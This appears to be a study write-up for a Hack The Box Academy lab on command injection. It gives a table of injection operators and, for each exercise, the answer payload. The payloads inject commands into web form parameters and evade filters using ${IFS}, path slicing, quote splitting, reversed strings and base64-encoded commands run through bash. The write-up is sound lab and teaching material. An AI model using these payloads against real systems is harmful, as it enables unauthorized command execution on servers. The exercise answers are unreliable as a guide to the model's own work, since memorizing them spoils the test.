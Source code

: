 # [HTB] Command Injections
## Command Injection Methods
## To inject an additional command to the intended one, we may use any of the following operators:

##  Injection Operator	Injection Character	URL-Encoded Character	Executed Command

```Semicolon	      ;	         %3b	      Both```

```New Line	      \n         %0a	      Both```

```Background	      &	         %26	        Both (second output generally shown first)```

```Pipe	              |	          %7c	        Both (only second output is shown)```

```AND	              &&	  %26%26	    Both (only if first succeeds)```

```OR	              ||	  %7c%7c	    Second (only if first fails)```

```Sub-Shell	      ``	  %60%60	    Both (Linux-only)```

```Sub-Shell	     $()	   %24%28%29	  Both (Linux-only)```

## Other Injection Operators

>**Q. Try using the remaining three injection operators (new-line, &, |), and see how each works and how the output differs. Which of them only shows the output of the injected command?**

```sh
ip=127.0.0.1|ls
```

## Identifying Filters

>**Q. Try all other injection operators to see if any of them is not blacklisted. Which of (new-line, &, |) is not blacklisted by the web application?**

```sh
ip=127.0.0.1%0als
```

## Bypassing Space Filters

>**Q. Use what you learned in this section to execute the command 'ls -la'. What is the size of the 'index.php' file?**

```sh
ip=127.0.0.1%0a{ls,-la}
```

## Bypassing Other Blacklisted Characters

>**Q. Use what you learned in this section to find name of the user in the '/home' folder. What user did you find?**

```sh
ip=127.0.0.1%0a${IFS}ls%09${PATH:0:1}home
```

## Bypassing Blacklisted Commands

>**Q. Use what you learned in this section find the content of flag.txt in the home folder of the user you previously found.**


```sh
ip=127.0.0.1%0a${IFS}c"a"t%09${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt
```

## Advanced Command Obfuscation

>**Q. Find the output of the following command using one of the techniques you learned in this section: find /usr/share/ | grep root | grep mysql | tail -n 1**

```sh
echo -n 'find /usr/share/ | grep root | grep mysql | tail -n 1' | base64
```
```
[/htb]$ $(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
```
```
[/htb]$ $(rev<<<'imaohw')
```
```sh
ip=127.0.0.1%0abas$@h<<<$(ba$@se6$@4${IFS}-d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)
```

## Skills Assessment

>**Q. What is the content of '/flag.txt'?**

```sh
/index.php?to=&from=51459716.txt%09${PATH}&finish=1&move=1
/index.php?to=&from=51459716.txt%26l's'${IFS}%09${PATH:0:1}&finish=1&move=1
/index.php?to=&from=51459716.txt%26c"a"t${IFS}%09${PATH:0:1}flag.txt&finish=1&move=1
```
